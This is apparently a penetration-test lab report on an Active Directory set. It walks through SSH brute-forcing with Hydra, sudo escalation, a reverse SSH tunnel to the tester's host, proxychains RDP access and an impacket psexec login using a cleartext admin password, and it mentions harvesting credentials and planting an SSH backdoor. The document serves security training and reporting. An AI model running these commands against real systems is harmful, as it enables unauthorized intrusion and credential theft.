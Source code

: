 # Active Directory Set

**Port Scan Results**

+----------------+----------------------------------------------------------------------+
| **IP Address** | **Ports Open**                                                       |
+================+======================================================================+
| 10.4.4.10      | **TCP:** 22, 80                                                      |
+----------------+----------------------------------------------------------------------+
| 10.5.5.20      | **TCP:** 135, 139, 445, 3389                                         |
+----------------+----------------------------------------------------------------------+
| 10.5.5.30      | **TCP:** 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 3389 |
+----------------+----------------------------------------------------------------------+

## Ajla – 10.4.4.10

### Initial Access – Password Brute-Forcing

**Vulnerability Explanation:** The user account on the Ajla host was protected by a trivial password that was cracked within 5 minutes of brute-forcing. 

**Vulnerability Fix:** The SSH service should be configured to not accept password-based logins and the user account itself should contain a unique password not contained in the publicly available wordlists.

**Severity: [Critical]{ color="red" }**

**Steps to reproduce the attack:** rom the initial service scan John discovered that this host is called Ajla. After adding the target’s IP to the /etc/hosts file, the Hydra tool was run against the SSH service using the machine’s DNS name instead of its IP. With the extracted password at hand John was able to log in as ajla using SSH.

```
hydra -l ajla -P /home/kali/rockyou.txt -T 20 sandbox.local ssh
```

![](placeholder.png)

### Privilege Escalation – Sudo group

**Vulnerability Explanation:** sudo group allows any user in this group to escalate privileges to the root if they know the user’s password. 

**Vulnerability Fix:** The SSH service should be configured to not accept password-based logins and the user account itself should contain a unique password not contained in the publicly available wordlists.

**Severity: [Critical]{ color="red" }**

**Steps to reproduce the attack:** John spotted that the ajla user was a member of the sudo group immediately upon logging in and using the "id" command. And knowing user's password, he only needed to use a single command "sudo su" in order to obtain a root shell.

![](placeholder.png){ width=50% }

### Post-Exploitation

**System Proof screenshot:**

![](placeholder.png){ width=75% }

After collecting the proof files and establishing a backdoor using SSH, John began the enumeration of the filesystem for the presence of interesting files. He noticed that there was a mounted share originating from the 10.5.5.20 IP. Inspecting a custom sysreport.ps1 script in the /mnt/scripts directory he found cleartext credentials for the "sandbox\\alex" user. Taking into consideration the type of scripts in this directory and the username structure, it seems that the "Poultry" host is a part of the Active Directory environment.

![](placeholder.png)

John began the lateral movement by establishing a reverse dynamic port forwarding using SSH. First, he generated a new pair of SSH keys and added those to the authorized_keys file on his Kali VM, then he just needed to issue a single SSH port forwarding command:

```
ssh-keygen -t rsa -N '' -f ~/.ssh/key
ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" \
    -o "StrictHostKeyChecking=no" -I key kali@192.168.119.164
```

With the dynamic reverse tunnel established, John only needed to edit the /etc/proxychains.conf to use the port 1080.

## Poultry – 10.5.5.20

### Initial Access – RDP login

**Steps to reproduce the attack:** with the credentials at hand and a reverse tunnel established, John connected to an RDP session using proxychains accepting the certificate when prompted and entering the retrieved password afterward.

```
proxychains xfreerdp /d:sandbox /u:alex /v:10.5.5.20 +clipboard
```

### Post-Exploitation

**Local Proof Screenshot:**

![](placeholder.png){ width=75% }

John noticed the presence of the Thunderbird program on the user’s desktop, and while checking Alex’s inbox he found the email from a local administrator Roger:

![](placeholder.png){ width=75% }

## DC – 10.5.5.30

### Initial Access – Remote Commands Execution

**Steps to reproduce the attack:** John was able to reuse a temporary password that the administrator left for Alex.

```
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py \
    admin:UWyBGeTp3Bhw7f@10.5.5.30
```

![](placeholder.png){ width=50% }

### Post-Exploitation

**System Proof Screenshot:**

![](placeholder.png){ width=75% }
